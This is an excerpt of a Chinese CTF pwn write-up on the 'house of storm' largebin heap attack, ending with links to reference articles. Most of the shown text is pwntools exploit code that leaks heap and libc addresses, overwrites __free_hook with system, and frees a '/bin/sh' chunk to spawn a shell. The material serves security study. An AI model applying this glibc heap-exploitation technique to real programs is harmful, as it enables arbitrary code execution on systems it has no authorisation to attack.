	show(1)  #我们刚刚house of storm 写的地址泄漏出来
	ru("]: ")
	heap = u64(r(6).ljust(8, '\x00'))
	success("heap:"+hex(heap))
	
	#dbg()
	
	payload  = p64(0)*3 + p64(0x13377331)#满足show的条件
	payload += p64(0x13370800) + p64(0x1000) #chunk0
	payload += p64(heap+0x10) + p64(8) #chunk1
	edit(0, payload)
	
	#dbg()
	
	show(1) #泄漏libc地址
	ru("]: ")
	malloc_hook = u64(r(6).ljust(8, '\x00')) -0x58 - 0x10
	libc_base = malloc_hook - libc.sym['__malloc_hook']
	free_hook = libc_base+libc.sym['__free_hook']
	system = libc_base+ libc.sym['system']
	success("free_hook:"+hex(free_hook))
	 
	#--------------修改 free_hook -----------------------------------#
	payload  = p64(0)*4
	payload += p64(free_hook) + p64(0x100)#chunk0
	payload += p64(0x13370800+0x40) + p64(8)#chunk1
	payload += '/bin/sh\x00'
	edit(0, payload)
	#dbg()
	edit(0, p64(system))
	free(1)
	
	itr()

 >参考文章
 [House of storm 原理及利用](https://www.anquanke.com/post/id/203096)
 [Largebin Attack](https://www.freebuf.com/articles/system/209096.html)
 [CTF-WIKI](https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/large-bin-attack/)
 [Largebin attack总结](https://bbs.pediy.com/thread-262424.htm#msg_header_h1_2)

